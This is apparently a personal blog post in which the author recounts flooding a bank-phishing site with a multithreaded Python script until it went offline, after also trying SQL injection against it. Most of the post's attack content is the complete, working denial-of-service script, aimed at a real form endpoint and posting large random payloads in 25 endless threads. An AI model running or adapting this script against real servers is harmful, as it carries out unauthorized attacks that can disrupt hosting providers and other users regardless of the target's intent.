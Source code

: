 ```yaml
---
layout: default
title:  "Annoying those phishers"
date:   2021-01-21 12:56:00 +0800
---
```


So a few hours ago a friend alerted me on facebook about a phishing site hosted in Turkey. After doing reconnaissance, i found out that the website is hosted in Turkey and the perpretor is actually a portuguese.

![Phishing site]({{ site.url }}/assets/images/maybank phishing.jpg){:class="img-responsive"}

And this guy was collecting username and passwords of a large bank in Malaysia (I am in Malaysia).

Ran a couple of SQL Injection scripts but at the same time i wrote a DoS script that is powerful that was utilizing the perpretor's resources and might send an alert to the provider on the activity on their network.

After working on the third version of the python script which was heavily threaded, i had also made a similar version that sends a large data that will be stored in his database. (the limit of a table size in MySQL is 65536 bytes) but i was hitting his server at 50Mbit/s running 25 python threads at one short.

so 2 scripts, my machine was running 50 threads concurrently.

![Python DoS]({{ site.url }}/assets/images/python dos.png){:class="img-responsive"}

For the two scripts, one with small payloads (to increase autoincrement faster) and a bigger payload (about 1.5MB per database row)

The reason why i chose to attack using two different payloads is to use up the adversary's resources a lot faster (table size limit or table id limit, or the database connection has been used up)

After running it for about half-and-hour, the perpretor finally took it's website down.

![Site 404]({{ site.url }}/assets/images/attack successful.png){:class="img-responsive"}

Most of the phishing sites are really simple forms and you can check the requests to launch and attack on them.

The only purpose of such phishing sites are just to collect data and we can use that as the weakness to overload their systems, whether their web code (number of connections that it can use to connect to database) or the database itself (max table size, incremental ids)

So here is the script (do not abuse it but you can read it for educational purposes)

fills the database with large random data at 500kb per column
```
import logging
import threading
import requests
import random, string

def randomword(length):
   letters = string.ascii_lowercase
   return ''.join(random.choice(letters) for i in range(length))

headers = {'User-Agent': 'Mozilla/5.0'}
payload = {'pais':'ru','ip':'0.0.0.0', 'password': randomword(500000), 'systema': randomword(500000), 'ir': randomword(500000)}

def generate_requests(name):
    while True:
        logging.info("Thread %s: starting", name)
        session = requests.Session()
        r = session.post('https://onlinemaycampaign.com/home/m2u/common/indexSend.php',headers=headers,data=payload)
        print(r.text)
        logging.info("Thread %s: finishing", name)

if __name__ == "__main__":
    format = "%(asctime)s: %(message)s"
    logging.basicConfig(format=format, level=logging.INFO,
                        datefmt="%H:%M:%S")

    threads = list()
    for index in range(25):
        logging.info("Main    : create and start thread %d.", index)
        x = threading.Thread(target=generate_requests, args=(index,))
        threads.append(x)
        x.start()

    for index, thread in enumerate(threads):
        logging.info("Main    : before joining thread %d.", index)
        thread.join()
        logging.info("Main    : thread %d done", index)
```
